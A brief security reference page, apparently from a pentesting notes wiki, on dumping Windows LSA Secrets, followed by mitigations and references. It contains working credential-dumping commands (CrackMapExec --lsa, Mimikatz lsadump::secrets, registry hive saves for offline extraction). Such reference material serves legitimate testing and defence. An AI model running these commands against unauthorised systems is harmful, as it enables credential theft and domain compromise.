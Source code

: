 ```yaml
---
description: Additional information on LSA Secrets
---
```


# LSA Secrets

### Dumping LSA Secrets

Dumping LSA Secrets with CrackMapExec:

```bash
crackmapexec smb [HOST] -u [USER] -p [PASSWORD] --lsa
```

Dumping LSA Secrets with Mimikatz:

```bash
lsadump::secrets
```

Dumping LSA Secrets manually and then reading them with Mimikatz

```powershell
reg save HKLM\SYSTEM system & reg save HKLM\security security
lsadump::secrets /system:c:\temp\system /security:c:\temp\security
```

### Mitigations

When researching LSA Secrets on [MITRE](https://attack.mitre.org/techniques/T1003/004/) it appears as though the only mitigation to LSA Secrets being dumped is through detection. However, this is not the case.

The following settings can be configured to remove cached domain credentials from LSA Secrets:

```bash
Cached credential set to 0 on servers
Cached credential set to 1 on workstations
```

Additionally, when cleartext credentials are retrieved from LSA Secrets it is due to the credentials being stored for a service (E.g., creating a service with a custom user account). To mitigate this issue, avoid using a custom user account to create the service.&#x20;

### References

* [Dumping and Cracking mscash ](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-and-cracking-mscash-cached-domain-credentials)
* [Preventing 4 Common Methods of Credentials Exfiltration](https://www.sentinelone.com/blog/windows-security-essentials-preventing-4-common-methods-of-credentials-exfiltration/)
* [Windows LSA Secrets](https://www.passcape.com/index.php?section=docsys\&cmd=details\&id=23)

